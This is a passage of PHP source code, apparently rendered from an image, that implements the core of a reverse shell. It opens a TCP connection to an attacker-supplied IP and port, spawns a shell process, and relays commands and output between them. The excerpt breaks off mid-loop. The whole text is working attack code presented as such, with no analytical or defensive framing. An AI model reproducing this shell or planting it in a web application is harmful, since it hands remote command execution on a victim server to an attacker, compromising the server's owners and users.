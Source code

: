 ```
// Do the reverse shell...
//

// Open reverse connection
$sock = fsockopen($ip, $port, $errno, $errstr, 30);
if (!$sock) {
	printit("$errstr ($errno)");
	exit(1);
}

// Spawn shell process
$descriptorspec = array(
   0 => array("pipe", "r"),  // stdin is a pipe that the child will read from
   1 => array("pipe", "w"),  // stdout is a pipe that the child will write to
   2 => array("pipe", "w")   // stderr is a pipe that the child will write to
);

$process = proc_open($shell, $descriptorspec, $pipes);

if (!is_resource($process)) {
	printit("ERROR: Can't spawn shell");
	exit(1);
}

// Set everything to non-blocking
// Reason: Occsionally reads will block, even though stream_select tells us they won't
stream_set_blocking($pipes[0], 0);
stream_set_blocking($pipes[1], 0);
stream_set_blocking($pipes[2], 0);
stream_set_blocking($sock, 0);

printit("Successfully opened reverse shell to $ip:$port");

while (1) {
	// Check for end of TCP connection
	if (feof($sock)) {
		printit("ERROR: Shell connection terminated");
		break;
	}

	// Check for end of STDOUT
	if (feof($pipes[1])) {
		printit("ERROR: Shell process terminated");
		break;
	}

	// Wait until a command is end down $sock, or some
	// command output is available on STDOUT or STDERR
	$read_a = array($sock, $pipes[1], $pipes[2]);
	$num_changed_sockets = stream_select($read_a, $write_a, $error_a, null);

	// If we can read from the TCP socket, send
	// data to process's STDIN
	if (in_array($sock, $read_a)) {
		if ($debug) printit("SOCK READ");
		$input = fread($sock, $chunk_size);
		if ($debug) printit("SOCK: $input");
		fwrite($pipes[0], $input);
	}

	// If we can read from the process's STDOUT
	// send data down tcp connection
	if (in_array($pipes[1], $read_a)) {
```